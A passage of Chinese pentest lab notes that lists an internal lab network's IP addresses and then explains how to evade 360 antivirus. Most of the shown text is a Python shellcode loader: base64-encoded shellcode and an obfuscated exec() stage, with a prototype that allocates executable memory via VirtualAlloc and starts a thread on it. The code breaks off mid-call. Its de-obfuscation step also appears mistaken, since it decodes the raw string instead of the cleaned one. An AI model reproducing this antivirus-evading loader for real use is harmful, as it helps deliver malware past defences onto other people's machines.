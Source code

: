 ### 中场暂停

ip变化，由于第一台Ubuntu对整个域环境无影响，就不开 Ubuntu 了。

```
母机           192.168.0.101
kali           192.168.0.103

tomcat-web     192.168.0.102       10.10.1.129
fileserver     10.10.1.128      10.10.10.140 
dc             10.10.10.139
```

## 免杀360杀毒与卫士

360杀毒是静态，卫士是行为拦截。

[(148条消息) 完美解决pyinstaller 打包报错找不到依赖pypiwin32 或pywin32-ctypes的错误_pyinstaller pywin32_一笑程序猴的博客-CSDN博客](https://blog.csdn.net/lixiaosenlin/article/details/103974607)

参考之前的免杀笔记

file_3.py：

```python
import ctypes
import base64

def sc():
    with open('s.txt', 'r') as f:
        s = f.read()
    gg = base64.b64decode(s)
    gg = bytearray(gg)
    return gg

def zx(s):
    gg =s
    with open('z.txt', 'r') as f:
        z = f.read()
    zx = z.replace('zf1yolo', '')
    zx = base64.b64decode(z)
    exec(zx)

gg=sc()
zx(gg)
```

s.txt 是 shellcode base64 编码文件，z.txt 为编译的执行代码 来 base64 编码后加入混淆字符

z.txt 未编码混淆前原型为：

```python
import ctypes
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),
    ctypes.c_int(len(gg)),
    ctypes.c_int(0x3000),
    ctypes.c_int(0x40)
    )
buffered = (ctypes.c_char * len(gg)).from_buffer(gg)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buffered,
    ctypes.c_int(len(gg))
)
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
```